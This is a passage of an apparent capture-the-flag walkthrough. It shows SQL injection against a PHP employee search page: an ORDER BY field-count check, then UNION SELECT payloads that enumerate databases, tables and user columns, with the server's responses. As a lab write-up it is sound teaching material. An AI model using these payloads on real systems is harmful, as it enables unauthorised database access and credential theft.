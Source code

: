and {% raw %}#{% endraw %} gives all of the data about the users:

>EMP ID :1  
EMP NAME : ramses  
EMP POSITION :  
--------------------------------  
EMP ID :2  
EMP NAME : isis  
EMP POSITION : employee  
--------------------------------  
Fetched data successfully   

and we can clearly see there are three fields returned. 

So at this point we know we have MySQL with three fields.

### Field Count
In case we wanted to check, we could do:

>GET /kzMb5nVYJw/420search.php?usrtosearch=admin1"+ORDER+BY+1%23 HTTP/1.1

Where we increment the '1'. When we get to 4, we get the following error:
>Could not get data: Unknown column '4' in 'order clause'

So this also confirms we have 3 fields.

### Contents
We can use the following commands to get the database names, tables, fields and finally data. I also extract the MySQL version information with @@version:

#### Getting the database names
{% highlight html %}
GET /kzMb5nVYJw/420search.php?usrtosearch=admin"+UNION+ALL+SELECT+NULL,@@version,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata%23 HTTP/1.1

EMP ID :  <br> EMP NAME : 5.5.44-0+deb8u1 <br> EMP POSITION : |information_schema|,|mysql|,|performance_schema|,|phpmyadmin|,|seth| <br> --------------------------------<br>Fetched data successfully
{% endhighlight %}

#### Getting the table names from *seth*
{% highlight html %}
GET /kzMb5nVYJw/420search.php?usrtosearch=admin"+UNION+ALL+SELECT+NULL,@@version,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema='seth'%23 HTTP/1.1

EMP ID :  <br> EMP NAME : 5.5.44-0+deb8u1 <br> EMP POSITION : |users| <br> --------------------------------<br>Fetched data successfully
{% endhighlight %}

#### Getting the columns from *users*
{% highlight html %}
GET /kzMb5nVYJw/420search.php?usrtosearch=admin"+UNION+ALL+SELECT+NULL,@@version,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name='users'%23 HTTP/1.1

EMP ID :  <br> EMP NAME : 5.5.44-0+deb8u1 <br> EMP POSITION : |id|,|user|,|pass|,|position| <br> --------------------------------<br>
{% endhighlight %}

